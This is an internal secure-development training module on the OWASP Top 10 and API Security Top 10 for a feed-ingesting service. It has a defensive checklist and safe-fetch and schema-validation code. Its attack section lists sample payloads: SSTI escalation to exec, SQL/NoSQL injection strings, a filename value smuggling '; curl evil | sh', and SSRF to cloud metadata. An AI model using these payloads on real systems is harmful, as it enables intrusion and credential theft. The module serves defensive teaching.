

_The OWASP Top 10 is not a checklist to "pass" — it is a map of where things reliably go wrong. Learn the mechanism of each, then wire prevention into the pipeline._

## 1. Why this matters for our system

Our service parses data from systems we do not control and exposes an API. That is exactly the shape that injection, SSRF, and deserialization bugs exploit. The Hugging Face intrusion's *initial code execution in production* was a **template-injection** bug in a data-config renderer (`{{ ... __globals__ ... exec() ... }}`) plus a **file-disclosure** via an HDF5 config pointing at local paths — both classic input-trust failures in a data-ingestion component very much like ours.

## 2. Core concepts

**OWASP Top 10 (2021), each in one line + our exposure:**

| # | Category | Mechanism | Our exposure |
| --- | --- | --- | --- |
| A01 | Broken Access Control | missing object/function-level checks | high — see module 06 |
| A02 | Cryptographic Failures | weak/missing encryption, bad key handling | medium — module 02 |
| A03 | Injection | untrusted data interpreted as code/query/template | **high** — external feeds |
| A04 | Insecure Design | missing threat model, no security requirements | addressed by module 01 |
| A05 | Security Misconfiguration | defaults, verbose errors, open ports, stale features | **high** — cloud + k8s |
| A06 | Vulnerable & Outdated Components | known-CVE dependencies | high — module 08 |
| A07 | Identification & Auth Failures | weak auth, session bugs | medium — module 04 |
| A08 | Software & Data Integrity Failures | unsigned updates, insecure deserialization, CI/CD tampering | **high** — module 08 |
| A09 | Logging & Monitoring Failures | can't detect or investigate | **high** — module 12 |
| A10 | SSRF | server coerced into making attacker-chosen requests | **high** — we make outbound calls |

**API Security Top 10 (2023) adds API-specific ones:** BOLA (API1), Broken Authentication (API2), Broken Object Property Level Authorization (API3 — mass assignment / excessive data exposure), Unrestricted Resource Consumption (API4), BFLA (API5), Unrestricted Access to Sensitive Business Flows (API6), SSRF (API7), Misconfiguration (API8), Improper Inventory Management (API9 — forgotten `/v1` and staging endpoints), Unsafe Consumption of 3rd-Party APIs (API10 — **trusting responses from Lenel/VMS blindly**).

**Injection** — any time untrusted input is concatenated into an interpreter's language: SQL, NoSQL query objects, OS commands, LDAP, XPath, **template engines** (SSTI), log formats, and header values. Prevention is always the same shape: **keep data as data** — parameterized queries, safe APIs, no `eval`/shell, context-aware output encoding, and strict input validation as defense in depth.

**SSRF** — the server makes a request to a URL influenced by input, and an attacker points it at `169.254.169.254` (cloud metadata), internal services, or `file://`. Prevention: **egress allow-list** (only known external hosts), block link-local/private ranges, no redirects to new hosts, and never fetch a URL that came from a feed payload.

**Insecure deserialization** — turning untrusted bytes into objects can run code (Java/Python `pickle`/PHP) or corrupt state. Prevention: use data-only formats (JSON with a schema), never native deserializers on untrusted input, and validate against a schema.

**Secrets handling** — see modules 02/04; at the app layer: no secrets in code/images/logs/error trackers, load from Vault, scrub before logging.

## 3. How it works

The secure-SDLC loop — where each control catches which bug:



## 4. How it is attacked

- **SSTI → RCE** — `{{7*7}}` renders `49`, then escalate to `__globals__`/`exec` (the Hugging Face vector). Attack surface: any place a feed value reaches a template.
- **SQL/NoSQL injection** — `' OR 1=1--`, or a JSON `{"$ne": null}` in a Mongo filter.
- **Command injection** — a filename field containing `; curl evil | sh`.
- **SSRF to metadata** — a feed's "thumbnail URL" set to the IMDS endpoint; the service fetches it and leaks credentials.
- **Mass assignment** — POST body includes `"role": "admin"` and the ORM binds it.
- **Resource exhaustion** — a "zip bomb" or a feed field with a 2 GB string; unbounded pagination.
- **Verbose errors** — stack traces revealing paths, versions, queries.

## 5. Defensive checklist

- [ ] All DB access is parameterized; no string-built queries anywhere.
- [ ] No template engine ever receives untrusted input as *template*; feed values are only ever *data*.
- [ ] No `eval`, no shell-out with interpolated input; use `execFile` with an argv array if a subprocess is unavoidable.
- [ ] Outbound HTTP goes through a client that enforces an **egress allow-list**, blocks private/link-local IPs, and does not follow cross-host redirects.
- [ ] Every inbound field is validated against a schema (type, length, enum, format) and unknown fields are rejected (no mass assignment).
- [ ] Request size limits, timeouts, bounded concurrency, and pagination caps on every endpoint.
- [ ] Errors return a generic message + a correlation ID; details go to logs only.
- [ ] CI runs SAST, SCA (module 08), secret scanning, and IaC scanning; findings block merge by severity.
- [ ] Old API versions and staging endpoints are inventoried and decommissioned.

## 6. Simple example

An SSRF-resistant fetch used for anything URL-shaped from a feed:

```js
import dns from 'node:dns/promises';
import ipaddr from 'ipaddr.js';

const ALLOWED_HOSTS = new Set(['onguard.corp.example', 'vms.corp.example']);

export async function safeFetch(url) {
  const u = new URL(url);
  if (u.protocol !== 'https:') throw new Error('scheme not allowed');
  if (!ALLOWED_HOSTS.has(u.hostname)) throw new Error(`host not allow-listed: ${u.hostname}`);

  // resolve and reject private / link-local / loopback (blocks IMDS 169.254.169.254)
  const { address } = await dns.lookup(u.hostname);
  const range = ipaddr.parse(address).range();
  if (['private', 'loopback', 'linkLocal', 'uniqueLocal', 'reserved'].includes(range)) {
    throw new Error(`resolved to disallowed range: ${range}`);
  }
  return fetch(u, { redirect: 'error', signal: AbortSignal.timeout(5000) });
}
```

Schema validation that rejects unknown fields (Zod):

```js
const AccessEvent = z.object({
  cardholderId: z.string().regex(/^[0-9]{1,12}$/),
  readerId: z.string().max(64),
  timestamp: z.string().datetime(),
  result: z.enum(['granted', 'denied', 'forced', 'held']),
}).strict();                                  // .strict() -> extra keys throw
```

## 7. Apply it to our platform

- **API10 (unsafe consumption of third-party APIs)** is our sharpest edge: treat every Lenel/VMS response as hostile input — validate the schema, enum-check every categorical field, bound string lengths, and never feed any value into a query, template, log format, or shell.
- Put a **WAF** (OCI WAF) in front of the downstream API for baseline injection/bot protection, but treat it as a speed bump, not the control.
- Wire SAST/SCA/secret-scan/IaC-scan into the GitHub Actions pipeline that already gates `main`; a high-severity finding fails the build exactly like a failing test.
- Add **abuse-case tests** alongside unit tests: an oversized field, an unknown enum, a `{{7*7}}` string, a `file://` URL — assert they are rejected.

## 8. Practice

- Work the **[PortSwigger Web Security Academy](https://portswigger.net/web-security)** SSRF, SQL injection, and SSTI tracks end to end.
- Run **[OWASP Juice Shop](https://owasp.org/www-project-juice-shop/)** and get through the first three difficulty tiers.
- Add Semgrep + `npm audit` + Gitleaks to a repo's CI and tune the rules until the noise is manageable.

## 9. Courses and resources

- **[OWASP Top 10](https://owasp.org/www-project-top-ten/)** and **[OWASP API Security Top 10 (2023)](https://owasp.org/API-Security/)**.
- **[OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/)** — injection, SSRF, deserialization, mass assignment.
- **[Coursera — Software Security (University of Maryland)](https://www.coursera.org/learn/software-security)**.
- **[LinkedIn Learning — "Application Security" / "DevSecOps" / "OWASP Top 10"](https://www.linkedin.com/learning/topics/security-3)**.
- **[PortSwigger Web Security Academy](https://portswigger.net/web-security)** (free).

## 10. Key takeaways

- Learn the *mechanism* of injection, SSRF, and deserialization once; the fix is always "keep data as data" plus schema validation.
- Our biggest app-security risk is trusting responses from Lenel/VMS — validate them like attacker input.
- SSRF prevention = egress allow-list + block private ranges + no cross-host redirects; this also protects instance metadata.
- Put SAST/SCA/secret/IaC scanning and abuse-case tests in the pipeline that gates deploys.
